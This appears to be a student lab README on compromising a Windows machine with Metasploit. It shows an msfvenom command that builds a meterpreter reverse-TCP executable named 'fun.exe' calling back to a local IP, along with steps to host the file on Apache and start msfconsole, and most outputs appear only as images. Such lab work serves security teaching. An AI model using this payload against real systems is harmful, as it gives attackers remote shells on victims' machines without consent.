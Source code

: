 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

### OUTPUT:

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/2d80e84f-792a-464e-bec1-1889b94a2cbf)

Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/827c4167-8dd5-4c85-9e1d-9055c821c113)

copy the fun.exe into the apache /var/www/html folder 

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/382438be-c5da-4780-b756-e64087e939e3)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/eea3b465-5526-484b-9965-ba18231cc749)

Check the status of apache2

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/76e3a5b5-e1fb-4326-a364-f4760cbca773)

Invoke msfconsole:

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/42c9c42b-ecfe-45d6-9c09-2da05406b031)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
